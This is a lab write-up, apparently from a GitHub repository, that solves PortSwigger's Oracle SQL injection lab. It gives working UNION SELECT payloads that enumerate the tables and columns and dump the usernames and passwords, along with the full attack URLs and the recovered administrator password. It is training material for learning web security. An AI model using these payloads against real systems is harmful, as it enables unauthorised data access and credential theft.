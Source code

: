 ## LAB 8: SQL injection attack, listing the database contents on Oracle  
[SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solution
![LAB SCREENSHOT](./assets/lab8.1.PNG)

1. Figure out the names of other tables in the database
2. Fetch the usernames and passwords from one of the tables
3. Login as administrator

### 1. Figure out the names of other tables in the database
We need to figure out the names of other tables in the database. Since we already know its a Oracle database we can look in the Burpsuite SQL Inject cheat sheet to figure the name of the table that will allow us to fetch other tables. `all_tables` exists in Oracle database which contains the name of the tables within the databse as per [documentation](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286). We can use `' UNION SELECT table_name,NULL FROM all_tables--` to list out the names of all the tables in the database.

![LAB SCREENSHOT](./assets/lab8.2.PNG)

Full URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,NULL FROM all_tables--`


### 2. Fetch the usernames & passwords from one fo the tables
We need to figure out which table contains the username & password. I have already gone through a few of the tables and figured out that `USERS_ILYYMA` contains the usernames and passwords for the application.

![LAB SCREENSHOT](./assets/lab8.3.PNG)

We now need to list the columns in the tables. We can do this using the following query: `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ILYYMA'--`.

![LAB SCREENSHOT](./assets/lab8.4.PNG)

FULL URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ILYYMA'--`

We have now found that there are two columns in this table `USERNAME_VNSQMB` & `PASSWORD_CINOJD` which contain the usernames & passwords for the application. We now need to list all the usernames and passwords from the table this can be done using the following query: `' UNION SELECT USERNAME_VNSQMB,PASSWORD_CINOJD FROM USERS_ILYYMA--`

FULL URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT USERNAME_VNSQMB,PASSWORD_CINOJD FROM USERS_ILYYMA--`

![LAB SCREENSHOT](./assets/lab8.5.PNG)

### 4. Login as administrator
Logging in as `administrator` with the password `plmhkterzkk6tjxogtb9`.
![SOVLED SCREENSHOT](./assets/lab8.6.PNG)



<!-- EOF -->